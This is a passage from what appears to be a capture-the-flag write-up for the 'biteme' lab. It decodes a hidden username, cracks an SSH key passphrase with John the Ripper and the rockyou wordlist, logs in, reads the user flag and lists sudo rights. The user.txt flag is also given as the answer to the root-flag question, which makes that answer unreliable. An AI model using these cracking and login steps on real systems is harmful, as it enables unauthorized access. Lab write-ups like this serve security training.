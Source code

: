 <br>

```bash

document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason".split("|"), 0, {}));
```

<br>

<p>Used <code>CyberChef</code>.<br><br>Discovered<code>jason_test_account</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/1dc17bab-0ff1-488e-8fa6-18c3c0103cb0)

<br>



```bash
:~/biteme# php -a
Interactive mode enabled

php > echo hex2bin('6a61736f6e5f746573745f6163636f756e74');
jason_test_account
php >
```


```bash
:~/biteme# nano este
:~/biteme# chmod 600 este
:~/biteme# locate ssh2john
/opt/john/ssh2john.py
:~/biteme# john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
1a2b3c4d         (este)
```


```bash
:~/biteme# ssh -i este jason@biteme.thm
...
jason@biteme:~$ pwd
/home/jason
jason@biteme:~$ ls
user.txt
jason@biteme:~$ cat user.txt
THM{6fbf1fb7241dac060cd3abba70c33070}
```

<br>

<p>1.1.What is the root flag?<br>
<code>THM{6fbf1fb7241dac060cd3abba70c33070}</code></p>


```bash
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on ip-TargetIP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on ip-TargetIP:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```
